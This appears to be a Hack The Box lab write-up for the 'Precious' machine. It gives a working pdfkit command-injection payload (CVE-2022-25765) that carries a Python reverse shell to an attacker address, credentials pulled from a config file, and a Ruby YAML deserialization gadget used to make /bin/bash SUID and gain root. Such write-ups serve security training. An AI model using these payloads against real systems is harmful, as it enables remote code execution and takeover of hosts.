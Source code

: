 ```yaml
---
toc: true
toc_label: "Table of Contents"
toc_icon: "cog"
toc_sticky: true
title: Precious HTB Writeup
header:
  image: /assets/images/stocker/precious_header.png
  teaser: /assets/images/stocker/precious_header.png
  
---
```

**Description**

The machine we’ll talk about today is a machine vulnerable to RCE and also to YAML Deserialization attack, I’ll explain my best to do through these 2 vulnerabilities.

# **PORT SCANNING**

```
nmap -sC -sV -oA nmap/result 10.10.11.189
Starting Nmap 7.93 ( <https://nmap.org> ) at 2022-11-27 00:13 CST
Nmap scan report for 10.10.11.189
Host is up (0.084s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to <http://precious.htb/|_http-server-header:> nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 10.39 seconds
```

We have 2 ports open ⇒ 80 and 22

http-title revealse we are redirected to [](http://precious.htb)[http://precious.htb](http://precious.htb) ⇒ Don’t forget to add it to **/etc/hosts** file.

# HTTP Navigation

Navigating to [](http://precious.htb)[http://precious.htb](http://precious.htb) we can see a website where we can convert a web page to PDF file.

![precious-web-converter.png](/assets/images/precious/precious-web-converter.png)

I then tried to see how works the website.

Starting my webserver with python module :

```jsx
# python3 -m http.server 80
```

Now I can enter my “webpage” address and download the PDF generated.

Analyzing the PDF file with **EXIFTOOL** :

![precious-pdf-generated.png](/assets/images/precious/precious-pdf-generated.png)

The PDF is generated by **pdfkit v0.8.6** ⇒ search on Google :

we directly find that there is a vuln linked to **CVE-2022-25765**

After reading and understand some **PoC**. We understand here that we can add a random **GET** parameter after the link entered in the converter and inject a command between `backticks`

```
http://10.10.XX.XX/?name=%20`id`
```

Let's try that and see what's happening : 


![id-command-injected.png](/assets/images/precious/id-command-injected.png)

Here's we can see that we have the command executed and reflected in the PDF Title ! 

We can use a Python3 reverse shell payload found on : 
https://gtfobins.github.io/

```python
http://10.10.XX.XX/?name=%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.XX.XX",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`
```


```js
nc -nvlp 4444
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.10.11.189.
Ncat: Connection from 10.10.11.189:42830.
$ ls
ls
app  config  config.ru  Gemfile  Gemfile.lock  pdf  public
$ cd /home/ruby
cd /home/ruby
$ ls -al
ls -al
total 28
drwxr-xr-x 4 ruby ruby 4096 Nov 26 14:36 .
drwxr-xr-x 4 root root 4096 Oct 26 08:28 ..
lrwxrwxrwx 1 root root    9 Oct 26 07:53 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3526 Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby 4096 Oct 26 08:28 .bundle
drwxr-xr-x 4 ruby ruby 4096 Nov 26 19:56 .cache
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile
```

I found a directory called `.bundle` and found a file named `config`

```js
-r-xr-xr-x 1 root ruby   62 Sep 26 05:04 config
$ cat config
cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

Let's try these new credentials ! 


# Privilege Escalation

```js
-bash-5.1$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```


Analyzing the file Ruby file there is `YAML.load` function is vulnerable to `YAML Deserialization Attack`.

PoC available here : 

https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565#file-ruby_yaml_load_sploit2-yaml


Now we'll download the file in `/home/henry` directory and try to execute it : 

```ruby
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```

```bash
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
uid=0(root) gid=0(root) groups=0(root)
```

now let's change the id command to something more interesting : 

```ruby
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "chmod +s /bin/bash"
         method_id: :resolve
```

```bash
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
```

```bash
henry@precious:~$ ls -al /bin/bash
-rwsr-sr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```

And we got the `root.txt` and `user.txt` files.

```bash
henry@precious:~$ /bin/bash -p
bash-5.1# cd /root
bash-5.1# cat root.txt; cat /home/henry/user.txt
3e65f5f15a60993e469cec52af3141c7
56c36a10c17db0478af95c8e10f8f733
```

